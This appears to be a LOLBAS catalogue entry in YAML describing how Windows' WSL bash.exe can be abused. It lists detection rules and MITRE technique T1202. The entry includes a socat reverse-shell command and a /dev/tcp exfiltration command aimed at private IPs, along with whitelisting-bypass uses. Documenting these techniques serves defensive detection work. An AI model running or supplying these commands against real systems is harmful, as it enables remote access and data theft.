```yaml
---
Name: Bash.exe
Description: File used by Windows subsystem for Linux
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
      - Input: Custom Format
  - Command: bash.exe -c "socat tcp-connect:192.168.1.9:66 exec:sh,pty,stderr,setsid,sigint,sane"
    Description: Executes a reverseshell
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
      - Input: Custom Format
  - Command: bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
    Description: Exfiltrate data
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
      - Input: Custom Format
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used to bypass Application Whitelisting.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
      - Input: Custom Format
Full_Path:
  - Path: C:\Windows\System32\bash.exe
  - Path: C:\Windows\SysWOW64\bash.exe
Code_Sample:
  - Code:
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_bash.yml
  - IOC: Child process from bash.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Asif Matadar
    Handle: '@d1r4c'
---
```

